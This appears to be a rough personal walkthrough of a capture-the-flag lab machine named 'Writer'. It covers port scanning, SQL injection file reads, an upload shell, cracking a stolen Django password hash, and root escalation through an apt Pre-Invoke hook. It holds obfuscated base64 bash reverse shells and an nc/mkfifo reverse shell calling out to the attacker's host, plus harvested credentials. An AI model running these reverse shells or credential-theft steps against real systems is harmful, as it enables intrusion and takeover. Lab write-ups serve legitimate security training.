

#Masscan:
Discovered open port 80/tcp on 10.10.11.101
Discovered open port 139/tcp on 10.10.11.101
Discovered open port 445/tcp on 10.10.11.101
Discovered open port 22/tcp on 10.10.11.101
#Simple nmap scan:
22/tcp open ssh 80/tcp open http 139/tcp open netbios-ssn 445/tcp open microsoft-ds
#Directory Bruteforcing:
ffuf -u http://10.10.11.101/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fw 1062 -c
administrative [Status: 200, Size: 1443, Words: 185, Lines: 35]
/var/www/writer.htb/writer/init.py
/etc/apache2/sites-enabled/000-default.conf
Testing Sqlmap sqlmap -r res.txt --file-read=/etc/apache2/sites-enabled/000-default.conf
we get an admin panel: lets try injections sql.
02_Spawning_TTY_Shell/////Rev_Shell
use the jpg shell and boom! we have a shell! change
/var/www/writer2_project/writerv2/settings.py
DATABASES = { 'default': { 'ENGINE': 'django.db.backends.mysql', 'OPTIONS': { 'read_default_file': '/etc/mysql/my.cnf',
www-data@writer:/var/www/writer2_project/writerv2$ cat /etc/mysql/my.cnf
[client] database = dev user = djangouser password = DjangoSuperPassword default-character-set = utf8
First Upgrade Shell# python3 -c 'import pty;pty.spawn("/bin/bash")'
#connect to DB mysql -u djangouser -P 3306 -p
select * from auth_user
pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= | kyle
hashcat -a0 -m 10000 kyle_hash /usr/share/wordlists/rockyou.txt
password:marcoantonio
kyle@writer:/home/john$ id uid=1000(kyle) gid=1000(kyle) groups=1000(kyle),997(filter),1002(smbgroup)
find / -group filter -type f 2>/dev/null /etc/postfix/disclaimer
lets test smb netstat -ant : port 25 smb tcp 0 0 127.0.0.1:25 0.0.0.0:* LISTEN
lets use NATBypass Found in /opt DID NOT WORK*
copy this rev shell. for #.sh
echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjIxNi8xMzMzNyAwPiYxJwo= |base64 -d| bash
imiditly after use port25_sendMailLocal.py found in ~/Desktop/scripts to catch a rev shell on port 13337
once we have a shell go to /home/john and get his .ssh cp it over chmod 600 and now you can ssh -i john_id john@writer.htb
after checking the groups i noticed management
john@writer:~$ find / -group management 2>/dev/null /etc/apt/apt.conf.d
looking at gtfo bins
https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/
found an article to get root access with atp 3 ways apperatly.
echo 'apt::Update::Pre-Invoke {“rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc KALI_IP 1234 >/tmp/f”};’ > pwn
echo 'apt::Update::Pre-Invoke {"echo
echo 'apt::Update::Pre-Invoke {"echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjE2LzEzMzM3IDA+JjEiCg== | base64 -d | bash"};'> test
bob@kali:~/Desktop/Ethical_Hacking/writer$ nc -nlvp 13337 listening on [any] 13337 ... connect to [10.10.14.216] from (UNKNOWN) [10.10.11.101] 38440 bash: cannot set terminal process group (48065): Inappropriate ioctl for device bash: no job control in this shell root@writer:/tmp#
boom!!!!